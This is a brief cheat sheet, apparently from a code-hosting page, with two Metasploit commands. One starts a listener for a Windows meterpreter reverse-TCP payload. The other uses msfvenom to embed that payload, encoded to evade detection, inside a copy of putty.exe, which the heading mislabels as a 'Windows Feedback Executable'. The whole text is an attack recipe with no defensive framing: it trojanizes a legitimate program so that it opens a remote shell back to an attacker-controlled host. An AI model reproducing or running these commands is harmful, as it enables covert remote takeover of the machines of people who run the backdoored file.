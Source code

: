 Start meterpreter listener for a Windows payload
------------------------------------------------
```bash
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST xxx.xxx.xxx.xxx
set LPORT 443
exploit
```

Backdoor a Windows Feedback Executable
------------------------------
```bash
msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lport= 4444 lhost=xxx.xxx.xxx.xxx -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o puttyX.exe
```
